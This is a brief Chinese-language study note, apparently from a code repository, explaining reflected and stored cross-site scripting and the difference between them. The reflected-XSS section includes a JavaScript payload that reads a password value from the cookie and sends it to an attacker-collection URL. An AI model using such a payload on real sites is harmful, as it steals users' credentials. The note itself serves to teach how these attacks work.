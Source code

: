 # 反射型xss漏洞
- 攻击者往目标网站的url中添加可执行的代码，诱使目标网站的用户点击，目标网站将攻击参数当成普通字符串添加到了网页中导致攻击被执行。
```js
<script>
var mess = document.cookie.match(new%20RegExp("password=([^;]*)"))[0]; 

window.location="http://localhost:8080/attacter/index.jsp?info="%2Bmess
</script>
```

# 保存型xss漏洞
它是将攻击脚本保存到被攻击的网站后台内，所有浏览该网页的用户都要执行这段攻击脚本。
- 攻击方法：网站允许提交评论，用户名等信息，但攻击者向网站提交可执行的html代码
- 转译用户提交的内容。

#区别
反射型一次只能攻击一个用户
保存型，可以代码被网站后台保存，所有访问用户都会被攻击